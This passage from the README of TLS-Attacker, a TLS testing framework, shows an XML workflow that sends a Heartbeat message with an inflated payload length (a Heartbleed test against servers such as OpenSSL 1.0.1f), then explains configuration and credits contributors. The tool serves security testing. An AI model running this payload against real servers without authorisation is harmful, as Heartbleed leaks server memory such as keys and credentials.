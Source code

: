 ```xml
    <Receive>
        <expectedMessages>
            <ChangeCipherSpec/>
            <Finished/>
        </expectedMessages>
    </Receive>
    <Send>
        <messages>
            <Heartbeat>
                <payloadLength>
                <integerExplicitValueModification>
                    <explicitValue>20000</explicitValue>
                    </integerExplicitValueModification>
                </payloadLength>
            </Heartbeat>
	</messages>
    </Send>
    <Receive>
		<Heartbeat/>
    </Receive>
</workflowTrace>
```
As you can see, we explicitly increased the payload length of the heartbeat message by 20000.
If you run the attack against the vulnerable server (e.g., OpenSSL 1.0.1f), you should see a valid heartbeat response.

Further examples on attacks and further explanations on TLS-Attacker can be found in the wiki.

## Advanced Features
Some actions require context, or configuration to be executed correctly. For example, if TLS-Attacker tries to send a ClientHello message, it needs to know which values to
put into the message, e.g., which Ciphersuites or which protocol version to use. TLS-Attacker draws this information from a configuration file (default located in TLS-Core/src/main/resources/default_config.xml).
Values which are determined at runtime are stored in the TlsContext. When a value which is normally selected from the context is missing (because a message was not yet received), the default value from the Config is selected. You can specify your own configuration file from command line with the "-config" parameter. Note that if you do not explicitly define a default value in the config file, TLS-Attacker fills
this gap with hardcoded values (which are equal to the provided default config). More details on how to customize TLS-Attacker can be found in the wiki.

## Acknowledgements
The following people have contributed code to the TLS-Attacker project:
- Florian Pfützenreuter: DTLS 1.2
- Felix Lange: EAP-TLS
- Philip Riese: Server implementation, TLS Man-in-the-Middle prototype
- Christian Mainka: Design support and many implementation suggestions
- Matthias Terlinde: More TLS-Extensions
- Nurullah Erinola: TLS 1.3 Support
- Lucas Hartmann: TLS-MitM Workflows
- Florian Linsner: PSK, SRP
- Pierre Tilhaus: Code quality improvements
- Felix Kleine-Wilde: SSL 3 Support
- Marcel Maehren: 0-RTT Support
- Asli Yardim: STARTTLS
- Tim Reisach: GOST
Additionally we would like to thank all the other people who have contributed code to the project.
